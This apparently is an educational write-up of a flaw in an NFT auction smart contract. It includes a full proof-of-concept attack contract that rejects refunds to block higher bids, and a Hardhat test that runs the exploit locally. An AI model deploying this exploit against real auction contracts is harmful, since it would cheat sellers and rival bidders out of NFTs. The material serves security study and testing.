 The **Auction.sol** smart contract allows any user in the Internet to bid for ERC721 NFT tokens during a period of 7 days, after which the highest bidder may collect it.
However it contains a design flaw that, when exploited, gives a malicious bidder the opportunity to walk away with the NFT for the lowest price.

![Exploiting Auction.sol](https://cdn.glitch.global/67410202-16c0-4d12-bc48-1a6e6eaae69e/AuctionAttack.jpg)

The POC (proof of concept) consists of 2 files:

1. The malicious contract, `contracts/attack/AuctionAttack.sol`
```solidity
// SPDX-License-Identifier: unlicensed
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "../vulnerable/Auction.sol";

contract AuctionAttack {
  address payable _owner;
  Auction _auctionContract;
  constructor (address _existingAuctionContractAddress) payable {
    _owner = payable(msg.sender);
    _auctionContract = Auction(_existingAuctionContractAddress);
  }

  function onERC721Received(address, address, uint256, bytes calldata) public pure returns(bytes4) {
    return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
  }

  modifier onlyOwner {
    require(_owner == msg.sender, "Only the owner may call");
    _;
  }

  fallback() external onlyOwner {
    // reject any refunds because the sender is not the attacker
  }

  function bid(uint256 _id) public onlyOwner {
    _auctionContract.bid{ value: 1.000001 ether }(_id);
  }

  function collect(uint256 _id) public onlyOwner {
    // this contract collects the NFT
    _auctionContract.collect(_id);
    // transfer the NFT to the attacker
    ERC721 nftContract = ERC721(_auctionContract.nftContract());
    nftContract.safeTransferFrom(address(this), _owner, _id);
    // disable this contract and return the remaining ETH to the attacker
    selfdestruct(_owner);
  }
}
```

2. The hardhat test
```javascript
    // POC can go here:
    tokenId++;
    console.log("\n EXPLOIT : \n");

    console.log("Mint a new NFT");
    tx = await auction.connect(minter).list({ value: parseEth("1", "ether") });
    await expect(tx).to.emit(auction, "ListedId").withArgs(tokenId, minter.address);
    console.log("The initial owner of NFT #", tokenId, "is", await mock721.ownerOf(tokenId));

    let balance = await attacker.getBalance();
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's initial balance is: ", balance, "ETH");
    console.log("Attacker address:", attacker.address, "deploys a corrupt contract with enough ETH to make a bid.");
    const AuctionAttack = await ethers.getContractFactory("AuctionAttack", attacker);
    const auctionAttack = await AuctionAttack.deploy(auction.address, { value: parseEth("1.5", "ether") });

    console.log("The attacker's contract makes the lowest bid.");
    tx = await auctionAttack.bid(tokenId);

    console.log("bidder1's high bid is expected to fail.");
    await expect(auction.connect(bidder1).bid(tokenId, { value: parseEth("2", "ether") })).to.be.reverted;

    console.log("bidder2's higher bid also fails.");    
    await expect(auction.connect(bidder2).bid(tokenId, { value: parseEth("3", "ether") })).to.be.reverted;

    console.log("Fast forward 7 days, it is NFT collection time!"); 
    // fast forward blockchain time by 7 days
    await ethers.provider.send("evm_mine", [(await blockchainNow()) + 804800]); 
    tx = await auctionAttack.collect(tokenId);
    await expect(tx).to.emit(auction, "TransferId").withArgs(tokenId, minter.address, auctionAttack.address);

    console.log("Now the NFT owner is ", await mock721.ownerOf(tokenId));

    balance = await attacker.getBalance();
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's final balance is: ", balance);
}
```

For further reading about this type of vulnerability:
- https://swcregistry.io/docs/SWC-113
- https://consensys.github.io/smart-contract-best-practices/attacks/denial-of-service/#dos-with-unexpected-revert
